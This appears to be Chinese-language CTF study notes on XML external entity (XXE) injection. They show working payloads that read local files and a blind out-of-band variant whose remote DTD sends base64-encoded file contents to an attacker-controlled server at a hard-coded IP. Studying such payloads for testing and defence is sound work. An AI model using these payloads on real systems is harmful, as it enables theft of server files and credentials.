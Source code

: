 # XXE基础

```
<?xml version = "1.0"?>  //xml头
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>  //主体
<na>&cc;</na>  //xml
```

xml中的标签是可以任意命名的

·



# 有回显，外部实体XXE

```
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

# 无回显，外部实体，XXE



<!-- 要引用（dtd里面），所以要加百分号% -->
<!-- /flag 改成 /etc/passwd 可能会失败，因为内容太多了 -->

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY  % myurl SYSTEM "http://123.60.57.4/test.dtd">
%myurl;
]> 
```

<!-- 不能直接<!ENTITY  % myurl SYSTEM "http://vps-ip:port/%file"> ，因为默认不允许把本地文件发送到远程dtd里面，需要绕一圈，绕过这个限制-->
<!-- %myurl;会读取远程dtd文件，读到了以后，因为远程dtd文件有一个实体的定义（% dtd），那么就会解析这个实体定义。（% dtd）实体的定义内容是另外一个实体定义（&#x25; vps），那就会解析（&#x25; vps），就会执行远程请求，请求地址（http://vps-ip:port/%file），会在我们的vps日志上留下痕迹。
也可以起nc监听端口，能判断是否有向我们的vps发送请求以及请求内容。起nc的话% myurl的值，不要加端口，就vps-ip够了。
总结就是，%myurl 这种引用会自动向地址发送请求。 -->

<root>
1
</root>



vps

/var/www/html下创建test.dtd文件

```
<!ENTITY % dtd "<!ENTITY &#x25; vps SYSTEM 'http://vps-ip:port/%file;'> ">
<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->

<!-- 引用（执行）dtd实体，vps被注册 -->
%dtd;
<!-- 引用（执行）vps实体，接收%file变量的内容 -->
%vps;

```

